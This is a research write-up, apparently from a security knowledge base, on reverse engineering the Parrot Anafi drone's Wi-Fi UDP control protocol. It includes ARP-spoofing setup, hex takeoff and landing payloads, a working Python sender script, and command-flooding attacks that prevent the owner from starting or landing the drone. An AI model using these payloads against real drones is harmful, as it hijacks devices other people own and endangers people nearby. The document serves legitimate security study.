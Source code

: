 # Parrot Anafi Drone Reverse Engineering

In this example, we demonstrate how we reverse-engineered the communication between the Parrot Anafi consumer drone and its controller, which connect via Wi-Fi. The Parrot Anafi hosts its own Wi-Fi network, allowing either the controller or a phone running the Freeflight app to connect. Our goal was to understand the signals sent to the Anafi for initiating takeoff and landing sequences.

## Test Setup

Start by connecting your PC to the Parrot Anafi’s Wi-Fi network. Next, set up an ARP spoofing attack to place your PC in a man-in-the-middle position between the drone and its controller. This can be accomplished using tools like Ettercap, allowing your device to capture the data exchanged between the two.

The resulting test setup may look like this:

<figure><img src="../../../../.gitbook/assets/image (75).png" alt=""><figcaption><p>Parrot Anafi test setup</p></figcaption></figure>

## Packet Analysis

Using Wireshark we can look at the packets, which are send during a landing and a starting sequence (picture shows just a snippet):

<figure><img src="../../../../.gitbook/assets/image (11).png" alt=""><figcaption><p>Example packet</p></figcaption></figure>

We can see that the communication between the drone and the controller is done over UDP. Every UDP packet had some kind of hex string as payload, which was non-ASCII

Next, we looked at the distribution of the packets send, of all packets send during one start and landing of the drone:

<figure><img src="../../../../.gitbook/assets/image (12).png" alt=""><figcaption><p>Distribution of UDP packet type during one start and landing</p></figcaption></figure>

To distinguish which packet is responsible for the start and landing we captured 17 start and landings and saw that the amount of third type (length=53 bytes) of messages went from 2 to 34. Could this be the packet which controls the start/landing? since 17\*2=34

We can filter in Wireshark with `frame.len==53` to filter just for the start/landing packets:

<figure><img src="../../../../.gitbook/assets/image (14).png" alt=""><figcaption><p>Wireshark filter which only shows start and landing packets</p></figcaption></figure>

The payload of the packets had a pretty clear structure: (here an example of a few)

```
04 0b 0b 00 00 00 00 01 00 01 00
04 0b 0c 0b 00 00 00 01 00 03 00
04 0b 0d 0b 00 00 00 01 00 01 00
04 0b 0e 0b 00 00 00 01 00 03 00
04 0b 0f 0b 00 00 00 01 00 01 00
04 0b 10 0b 00 00 00 01 00 03 00
04 0b 11 0b 00 00 00 01 00 01 00
04 0b 12 0b 00 00 00 01 00 03 00
```

After analyzing the protocol more, we could reverse the format of this type packet:

<figure><img src="../../../../.gitbook/assets/image (15).png" alt=""><figcaption><p>Structure of start and landing packets</p></figcaption></figure>

## Attack

Let's see if we can send our own packets from our PC to the drone, in order to start and land it, without using the controller. For that we setup a Python script (see below) to send a UDP packet with the payload `040bff0b000000300001000100` to the drone to start it. Note that we set the counter to `FF`, as packets are dropped by the drone if the counter value is less than the current counter. Using `FF` ensures it is always accepted.

```python
import socket

# Define target IP and ports
target_ip = "192.168.42.1"
destination_port = 2233

# Define the payload
payload = bytes.fromhex("040bff0b000000300001000100") #for starts
#payload = bytes.fromhex("040bff0b000000300001000300") #for landings

# Create a UDP socket
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

# Send the payload to the target IP and port
sock.sendto(payload, (target_ip, destination_port))

# Close the socket
sock.close()

print(f"Payload sent to {target_ip}:{destination_port}")
```

And we did it! The drone performed its auto-start maneuver and was hovering above! In order to land the drone again we can send `040bff0b000000300001000300`to the drone. Note that the trigger byte (2nd last byte) was set to `03`.

Notice, one does not need to change the MAC address to get these results. The Anafi processed the packages even though the laptop was not the primary controller at this time.

If we spam either the takeoff or landing command, the following attacks can be exploited:

1. **Possible ATTACKS**
   1. Prevent starts
      1. The next experiment was to spam the landing command constantly, with the result that the drone was unable to start using the controller. The drone’s rotors were spinning for a second but then the landing command was received and the Anafi stopped the starting process.
   2. Prevent landing
      1. The same result could be achieved with spamming the starting package. If one presses the landing button on the controller or phone the drone started to go down, but as soon as the starting package from the laptop came in the drone stopped the landing and stared to hovering above the ground again. As a result, the phone user was unable to land the drone properly.

## Summary

This case study shows why it is relevant to reverse network protocols when analyzing IoT devices. As an attacker, which has access to the Parrot Anafis WiFi network we can send unauthenticated packets to the drone and control its starts and landings. This can be done by any device, which can connect to WiFi networks.

## Resources

Bachelor Thesis, Jonas Rosenberger

[https://www.parrot.com/en/drones/anafi](https://www.parrot.com/en/drones/anafi)
